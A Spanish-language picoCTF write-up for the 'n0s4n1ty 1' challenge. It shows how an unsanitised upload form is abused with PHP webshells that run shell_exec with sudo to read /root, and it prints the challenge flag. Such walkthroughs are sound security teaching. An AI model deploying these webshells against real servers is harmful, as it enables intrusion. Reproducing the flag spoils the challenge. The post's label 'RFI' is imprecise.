 ```yaml
---
title: n0s4n1ty
date: 2025-03-29 19:00:00 +0200
author: pablo
categories: [writeup, picoctf]
tags: [picoctf, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

n0s4n1ty 1

>Author: Prince Niyonshuti N.
Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
{: .prompt-tip }

Al lanzar la instancia tenemos acceso a una web donde aparece un formulario para subir un archivo. 
![](view-source:https://lh3.googleusercontent.com/a-/AFdZucpC_6WFBIfaAbPHBwGM9z8SxyM1oV4wB4Ngwp_UyQ=s96-c)

Bueno parece una oportunidad para subir una shell. La forma de aproximarse a estos formularios web es ver si la entrada está sanitizada. 
Sanitizar la entrada significa que a nivel de la aplicación, el código de la misma maneja que tipo de archivos se pueden subir, de que tamaño,
de que extensión y otros filtros que deberían comprobarse pero estos ejercicios suelen ser más sencillos que todo eso. 

The file c99.php has been uploaded Path: uploads/c99.php. Uso c99shell  Pero veo que no funciona y aunque tiene unas cuantas funcionalidades ya integradas con estos entornos no se puede ir tan a lo bestia, no funciona, así que probaré algo más manual. 

Codifico esta web en PHP, como no se sanitiza la entrada el servidor es posible que ejecute todo el código PHP que 
se encuentra dentro de las rutas de la aplicación incluido el directorio de uploads. Así que a subir una _webshell_ toca.
Poco a poco voy comprobando que la cosa funciona, prueba y error, determino la ruta completa hacia /root.

```
<?php
$output = shell_exec("pwd");
echo $output;
?>
```
Tengo resultados, el código se ha ejecutado, ahora sabemos que el archivo que hemos subido está exactamente en:
```/var/www/html/uploads ```

Después de hacer algunos cambios y resubir el archivo varias veces caigo en la cuenta de que con el directorio root no estoy teniendo suerte, añado una salida para comprobar que php se está ejecutando ```echo "Salida commando\n";```, así que añado sudo y descubro la sorpresa, el usuario actual ha sido añadido al fichero sudoers y ni siquiera necesita una password para ejecutar comandos del sistema.

``` 
<?php
$output = shell_exec("sudo ls ../../../../root/");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando flag.txt```

Codifico una última versión para capturar la banderita.
```
<?php
$output = shell_exec("sudo cat ../../../../root/flag.txt");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}```

flag: **picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}**

Un buen ejemplo de como un RFI (Remote file inclusion) se puede convertir en un RCE (Remote code execution). Pues aunque el código PHP se ejecuta del lado del servidor la acción de visitar a la página subida es la que lleva a cabo la ejecución en el servidor. 
Sanitizen sus entradas o perezcan en el camino. 
